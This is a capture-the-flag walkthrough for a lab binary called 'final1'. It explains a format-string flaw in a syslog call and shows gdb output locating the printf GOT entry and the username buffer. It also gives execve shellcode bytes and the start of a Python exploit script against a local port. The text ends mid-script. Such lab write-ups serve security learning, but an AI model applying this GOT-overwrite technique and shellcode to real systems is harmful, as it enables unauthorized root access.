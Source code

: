 The exploit in this program can be found in the `syslog` function. Using `man syslog` can be observe that `syslog` is actually just a call to `printf()` that is directed to the kernel log or `/var/log/syslog`.

We can check this by attempting to login with the password `%x %x %x %x %x` and checking `/var/log/syslog` (you'll have to be root to check the `syslog`).
```bash
Jan  3 04:09:44 (none) final1: Login from 127.0.0.1:50673 as [user] with password [8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4]
````

The approach for this challenge will be to place shell code in `username` and then redirect code execution by overwriting the GOT entry for `printf()`, then means that after `logit()` finishes executing, the subsequent call to `print()` should give us root access of to the program.

To find the GOT entry for `printf()` we open the `final1` in `gdb` and then we can use `print printf` to find the PLT entry, and then follow that code to find the GOT entry.
```
(gdb) print printf
$1 = {<text variable, no debug info>} 0x8048ccc <printf@plt>
(gdb) disassemble 0x8048ccc
Dump of assembler code for function printf@plt:
0x08048ccc <printf@plt+0>:	jmp    *0x804a174
0x08048cd2 <printf@plt+6>:	push   $0xf8
0x08048cd7 <printf@plt+11>:	jmp    0x8048acc
End of assembler dump.
(gdb) x/x 0x804a174
0x804a174 <_GLOBAL_OFFSET_TABLE_+136>:	0x08048cd2
```
So, the address of `printf` is `0x08048cd2`.

Next, we'll need to find the address for username, then can be done simply with:
```bash
(gdb) print &username
$2 = (char (*)[128]) 0x804a220
```
Or, alternatively we can see that `username` is used in `strcpy()`  in `parser()` and from the disassembly of `parser()` we can find the address for username.
```bash
0x08049995 <parser+88>:	movl   $0x804a220,(%esp)
0x0804999c <parser+95>:	call   0x8048cbc <strcpy@plt>
```
So, the address of `username` is `0x804a220`.

We'll also use some shell code from the internet `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x00` (if this is executed, it should give us root).

The next step is to find a way to inject these addresses into the "arguments" of the `printf` in `syslog`. We can set up a small script to connect to the server and interact with it.
```python
import socket
import struct

def waitForLine(s):
        while (True):
                c = s.recv(1)
                if (c == '$'):
                        return;

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1",2994))

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x00"

username = 0x804a220
got = 0x804a174
waitForLine(sock)
```